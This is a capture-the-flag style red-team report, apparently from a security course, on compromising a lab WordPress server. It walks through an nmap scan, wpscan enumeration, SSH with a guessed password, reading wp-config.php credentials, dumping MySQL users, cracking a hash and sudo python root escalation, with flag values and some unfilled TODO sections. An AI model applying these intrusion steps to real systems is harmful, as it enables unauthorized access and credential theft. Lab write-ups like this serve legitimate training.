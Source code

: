 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110/24
  
  Nmap scan report for 192.168.1.110
  Host is up (0.0088s latency)
  Not shown: 995 closed ports
  PORT      STATE  SERVICE         VERSION
  22/tcp    open   ssh             OpenSSH 6.7p1 Debian 5_deb8u4 (protocol 2.0)
  80/tcp    open   http            Apache httpd 2.4.10 ((Debian))
  111/tcp   open   rpcbind         2-4 (RPC #100000)
  139/tcp   open   netbios-ssn     Samba smdb 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp   open   netbios-ssn     Samba smdb 3.X - 4.X (workgroup: WORKGROUP)
  MAC Address: 00:15:5D:00:04:11 (Microsoft)
  Running: Linux 3.X|4.X
  OS CPE: cpe:/o:/linux:linux_kernel:3  cpe:/o:linux;linux_kernel:4
  OS details: LInux 3.2 - 4.9
```

This scan identifies the services below as potential points of entry:
- Target 1
  - ssh (port 22)
  - http (port 80)
  - rpcbind (port 111)
  - netbios-ssn (port 139)
  - netbios-ssn (port 445)


_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - wpscan was able to identify two users on the Word Press website hosted by the webserver.
        - wpscan –-url http://192.168.1.110/wordpress -e
        ![Wordpress Users](/images/wpscan-users.PNG)
      - Then, we simply attempted to ssh as these users into the machine. This proved simple, as Michael's password is michael.
        - ssh michael@192.168.1.110
          ![Successful ssh](/images/ssh-michael.PNG)
      - flag 1 was found inside /var/www/html
        - cd /var/www
        - grep -R flag html
          ![flag1](/images/flag1.PNG)
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e851c}
    - **Exploit Used**
      - While connected in as michael, flag 2 was found in the website's root directory.
        - found using find / -type f -iname *flag* 2>/dev/null
        - cat /var/www/flag2.txt
          ![flag2](/images/flag2.PNG)
  - `flag3` : flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - The wordpress configuration files contained the same login and password info that is still in use. 
        - cat /var/www/html/wordpress/wp-config.php
          ![wp-config credentials](/images/mysql-logins.PNG)
      - Using those, we could log into MySQL as root.
        - mysql -u root -p

          ![Into MySQL](/images/mysql-in.PNG)
      - Flag 3 was located in the wp_posts table in the wordpress database. We got there with:
        - show databases;
        - use wordpress;
        - show tables;
        - select * from wp_posts;
          ![Flag3](/images/flag3.PNG)
  - `flag4` : flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Flag 4 was found by using ssh to log in as steven, and escalating privileges to root.
      - First, we grabbed the password hash for steven from the MySQL table wp_users
        - ![SQL Users](/images/wp-sql-users.PNG)
      - We cracked that on our Kali machine using John the Ripper, giving us his password, which is pink84.
      - steven has sudo privileges for python, so we used that to escalate our privileges to root. AS root, we found flag 4 in /root. (Below is a pic retracing the steps taken.)
        - ![Gaining root and finding flag 4](/images/gaining-flag4.PNG)
        - ![Flag 4](/images/flag4.PNG)
  - With that, all 4 flags have been found.
